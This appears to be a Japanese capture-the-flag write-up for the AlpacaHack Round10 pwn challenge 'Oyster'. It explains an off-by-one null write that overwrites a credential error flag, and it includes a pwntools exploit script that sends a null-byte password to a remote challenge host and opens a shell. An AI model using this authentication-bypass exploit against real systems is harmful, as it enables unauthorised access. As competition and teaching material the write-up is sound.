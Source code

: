 # AlpacaHack Round10 Jp
<primary-label ref="pwn"/>

English: [](AlpacaHack-Round10.md)

## Preface
私は[AlpacaHack Round10 (Pwn)](https://alpacahack.com/ctfs/round-10)に参加しました.
AlpacaHackはいつも刺激的な問題を提供し,過去の問題にも挑戦ができるプラットフォームです.

Round10では3問がユーザーランド,1問がカーネルでした.カーネルは解けなかったのでまた今度挑戦します.

![Screenshot_20250323_171502.png](Screenshot_20250323_171502.png)

## Oyster
<secondary-label ref="user"/>
<secondary-label ref="rce"/>

L26の操作は一見文字列の最後にヌル文字を入れているように見えますが`buf[0]`が`\0`であればマイナスインデクスのoobが発生します.
```c
  buf[strlen(buf)-1] = '\0';
```

![Screenshot_20250323_164627.png](Screenshot_20250323_164627.png)

password入力の際の`buf[-1]`には`cred.err`があるため`buf`がヌル文字単体である場合に`buf[strlen(buf)-1] = '\0';`によって`cred.err`が満たされます.

```py
from pwn import *
import sys

e = ELF("oyster",checksec=False)
libc = ELF("/usr/lib/x86_64-linux-gnu/libc.so.6",checksec=False)
ld = ELF("/usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2",checksec=False)

nc = "nc 34.170.146.252 44367"
HOST = nc.split(" ")[1]
PORT = int(nc.split(" ")[2])

dbg = 1
g_script = """
    set max-visualize-chunk-size 0x300
"""

context.binary = e
if len(sys.argv) > 1:
    io = remote(host=HOST,port=PORT)
else:
    io = e.process()
    if dbg:
        gdb.attach(io,g_script)

sl  = lambda b: io.sendline(b)
shell = lambda : io.interactive()

sl(b"root")
sl(b"\0")

shell()
```
